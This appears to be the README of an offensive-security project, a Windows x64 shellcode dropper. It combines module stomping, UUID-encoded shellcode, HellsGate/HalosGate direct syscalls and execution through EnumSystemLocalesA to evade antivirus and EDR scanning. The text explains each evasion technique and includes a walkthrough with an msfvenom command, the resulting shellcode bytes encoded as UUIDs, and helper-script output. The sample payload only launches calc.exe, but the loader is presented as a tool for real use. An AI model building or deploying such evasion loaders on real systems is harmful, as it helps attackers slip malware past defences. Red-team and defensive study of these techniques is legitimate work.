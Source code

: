 # Module-Stomping UUID2Shellcode HellsGate Dropper
Module Stomping, No New Thread, HellsGate syscaller, UUID to shellcode Dropper for x64 Windows 10!

## About
Typically shellcode is loaded into the processes Heap or the `VirtualAlloc()` API is used to reserve a private section of memory within the process. For the shellcode to execute, the allocated memory must be marked executable. This is typically done by calling the `VirtualProtect()` API to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). These executable memory sections are easy to detect when they are not backed by a module, such as the executable section of the host process or a Dynamically Loaded Libraries (DLLs) executable code section. To evade this detection, Module Stomping can be used.
Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.
Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with the:
+ Deobfuscates the shellcode payload from UUIDs
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods 
+ Crawls the in memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`
+ Resolves `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly
+ HellGate Technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`
+ Uses HalosGate Technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR
+ Changes the memory protection of the DLL using syscalls
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode

#### Created with [Matt Kingstone](https://twitter.com/n00bRage)

## Walkthrough Example with MSF PopCalc
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`

### Optionally Change Sacraficial DLL
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
- https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
- https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
- https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c

